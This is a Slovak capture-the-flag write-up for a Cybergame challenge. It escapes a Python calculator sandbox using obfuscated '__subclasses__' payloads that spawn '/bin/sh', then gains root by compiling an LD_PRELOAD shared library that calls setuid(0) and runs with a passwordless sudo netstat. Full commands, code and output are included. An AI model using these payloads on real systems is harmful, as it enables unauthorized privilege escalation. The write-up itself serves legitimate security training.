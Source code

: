 # Zadanie

EN: That is interesting functionality. We can see that a separate user was created to run the calculator, but maybe the root user has more secrets that can be uncovered.

SK: Je to zaujímavá funkcionalita. Vidíme, že bol vytvorený samostatný používateľ na spustenie kalkulačky, ale možno má používateľ root viac tajomstiev, ktoré môžu byť odhalené.

## Riešenie

Zo zadania je celkom jasné, že budeme potrebovať povýšiť privilégiá, pretože po zadaní príkazu `whoami` som dostal `calc` a napríklad pri `sudo ls /root` som dostal toto

```
nc exp.cybergame.sk 7002
>> ().__class__.__base__.__subclasses__()[120]().load_module(().__class__.__base__.__subclasses__()[5]([111,115]).decode()).__dict__[().__class__.__base__.__subclasses__()[5]([115,121,115,116,101,109]).decode()](().__class__.__base__.__subclasses__()[5]([115,117,100,111,32,108,115,32,47,114,111,111,116]).decode())
sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper
sudo: a password is required
```

trochu ma otravuje obfuskovať python kód a skúsim, či mi povolí `/bin/sh` a povolilo.

Môžeme zadávať príkazy bez nutnosti obfuskovania po tom ako zadáme 

```
().__class__.__base__.__subclasses__()[120]().load_module(().__class__.__base__.__subclasses__()[5]([111,115]).decode()).__dict__[().__class__.__base__.__subclasses__()[5]([115,121,115,116,101,109]).decode()](().__class__.__base__.__subclasses__()[5]([47, 98, 105, 110, 47, 115, 104]).decode())
```

Pozrieme sudoers, či neexistujú nejké príkazy, na ktoré nemusíme zadávať heslo, `sudo -l` nám vráti

```
sudo -l
Matching Defaults entries for calc on e458e1c65a08:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty, env_keep+=LD_PRELOAD

User calc may run the following commands on e458e1c65a08:
    (ALL) NOPASSWD: /bin/netstat
```

Bingo... Okrem toho, že vieme pustiť netstat bez zadania hesla roota, máme tu aj `env_keep+=LD_PRELOAD`, čo nám otvára možnosť vytvoriť si vlastnú knižnicu pokiaľ vieme skompilovať vlastný c kód a na mašine je gcc. Do /tmp si teda uložíme náš c kód a nazveme napríklad mylib.c a skompilujeme.

Zadáme tieto príkazy

```bash
cat > /tmp/mylib.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void runme(void)
{
    setuid(0);
    setgid(0);
    system("/bin/sh");
}
EOF
```

```bash
gcc -shared -fPIC -o /tmp/mylib.so /tmp/mylib.c -nostartfiles
```

```bash
sudo LD_PRELOAD=/tmp/mylib.so /bin/netstat
```

počkáme, dostaneme automaticky `sh 1: Cannot fork` ,to nevadí a keď zadáme `whoami` dostame znova tú hlášku, ale na ďalší pokus dostaneme `root`. Nazrieme do jeho priečinka, je tam flag.txt, zadáme ešte `cat flag.txt` a máme vlajku.

```
nc exp.cybergame.sk 7002
>> ().__class__.__base__.__subclasses__()[120]().load_module(().__class__.__base__.__subclasses__()[5]([111,115]).decode()).__dict__[().__class__.__base__.__subclasses__()[5]([115,121,115,116,101,109]).decode()](().__class__.__base__.__subclasses__()[5]([47, 98, 105, 110, 47, 115, 104]).decode())

cat > /tmp/mylib.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void runme(void)
{
    setuid(0);
    setgid(0);
    system("/bin/sh");
}
EOF

gcc -shared -fPIC -o /tmp/mylib.so /tmp/mylib.c -nostartfiles

sudo LD_PRELOAD=/tmp/mylib.so /bin/netstat
sh: 1: Cannot fork

whoami
/bin/sh: 1: Cannot fork
sh: 1: Cannot fork

whoami
root

ls -la /root
total 24
drwx------ 1 root root 4096 Mar 31 20:01 .
drwxr-xr-x 1 root root 4096 Apr 10 14:47 ..
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
-rw-r--r-- 1 root root  254 May 14  2024 .wget-hsts
-rw-rw-r-- 1 root root   40 Mar 31 16:57 flag.txt

cat flag.txt
SK-CERT{35c3p1ng_py7h0n_15_345y_745k}
```

## Vlajka

```
SK-CERT{35c3p1ng_py7h0n_15_345y_745k}
```
